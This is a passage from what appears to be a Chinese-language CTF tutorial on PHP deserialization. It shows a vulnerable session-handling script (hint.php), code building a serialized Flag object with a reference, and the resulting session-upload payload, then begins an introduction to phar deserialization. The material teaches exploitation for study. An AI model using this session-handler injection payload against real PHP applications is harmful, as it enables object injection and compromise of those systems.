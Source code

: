 ```php
        }
    }
}

# session上传处（hint.php）
<?php
highlight_file(__FILE__);
error_reporting(0);
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['a'] = $_GET['a'];
?>
```

### payload构造

```php
# 很明显的通过引用传值构造payload，再使用session点上传

<?php
session_start();
class Flag{
    public $name;
    public $her;
}

$f = new Flag();
$f->name = &$f->her;
echo serialize($f);
```

==输出==

```php
O:4:"Flag":2:{s:4:"name";N;s:3:"her";R:2;}
最终payload：
    a=|O:4:"Flag":2:{s:4:"name";N;s:3:"her";R:2;}
```

## 13.19 phar 反序列化漏洞介绍

### 什么是phar

JAR是开发java程序一个应用，包括所有的可执行、可访问的文件，都打包进了一个JAR文件里，使得部署过程十分简单

`PHAR（”Php ARchive“）`是PHP里类似于JAR的一种**打包文件**

对于`PHP5.3`或更高版本，Phar后缀文件时默认开启支持的，可以直接使用它

`文件包含：phar伪协议，可读取 .phar 文件`

### Phar结构
